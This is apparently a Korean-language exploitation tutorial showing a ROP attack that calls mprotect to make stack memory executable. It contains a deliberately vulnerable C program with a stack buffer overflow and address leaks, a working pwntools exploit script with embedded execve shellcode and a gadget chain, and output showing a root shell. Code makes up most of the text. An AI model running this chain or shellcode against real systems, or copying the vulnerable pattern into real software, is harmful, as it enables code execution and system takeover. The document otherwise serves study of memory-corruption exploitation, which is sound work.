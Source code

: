 ## Concept

ROP를 통해 메모리 영역 할당(mmap)하거나 할당된 메모리 영역의 권한을 변경(mprotect)하여 공격하는 방법.

## **Proof of Concept**

```c
// Vuln Code
// gcc -fno-stack-protector -o rop rop.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
   
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    printf("buf[50] address : %p\n",buf);
    read(0, buf, 256);
}
  
void main(){
    write(1,"Hello ROP\n",10);
    vuln();
}
```

"A"*72 입력 시 Overflow 발생.

```
gdb-peda$ x/24gx $rsp
0x7fffffffe450:	0x4141414141414141	0x000000000040070a
```

mprotect() 함수를 이용하여 Shellcode가 저장된 메모리 영역의 권한을 rwx로 변경 
-> address 값은 페이지 경계에 맞게 정렬되어 있어야 한다.  
mprotect(address of shellcode,0x2000,0x7)

## **Exploit Code**
```python
# Exploit Code
import sys
from pwn import *

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

binary = ELF('./rop')
libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
p = process('./rop')
#gdb.attach(p)
p.recvline()

printf_addr = int(p.recvline().split(' ')[3],16)
buf_addr = int(p.recvline().split(' ')[3],16)
libBase = printf_addr - 0x55800
mprotect_addr = libBase + libc.symbols['mprotect']
pop_rdi_ret = libBase + 0x00141997
pop_rdx_pop_rsi_ret = libBase + 0x001150c9

shell_area = int(str(hex(buf_addr))[0:11]+'000',16)

print('printf_addr: '+str(hex(printf_addr)))
print('buf_addr: '+str(hex(buf_addr)))
print('shell_area: '+str(hex(shell_area)))

payload = shellcode
payload += "A"*(72-len(shellcode))
# mprotect(shellArea,0x2000,0x7)
payload += p64(pop_rdi_ret)
payload += p64(shell_area)
payload += p64(pop_rdx_pop_rsi_ret)
payload += p64(0x7)
payload += p64(0x2000)
payload += p64(mprotect_addr)
payload += p64(buf_addr)


#raw_input('1')
p.sendline(payload)
p.interactive()
```

## **Exploit**
```shell
root@bs-virtual-machine:~/test# python exploit.py 
[*] '/root/test/rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './rop': pid 3650
printf_addr: 0x7f52d5ce1800
buf_addr: 0x7ffef5aa0f20
shell_area: 0x7ffef5aa0000
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**Refereces**  
[https://www.lazenca.net/display/TEC/03.ROP%28Return+Oriented+Programming%29+-+mmap%2C+mprotect](https://www.lazenca.net/display/TEC/03.ROP%28Return+Oriented+Programming%29+-+mmap%2C+mprotect)

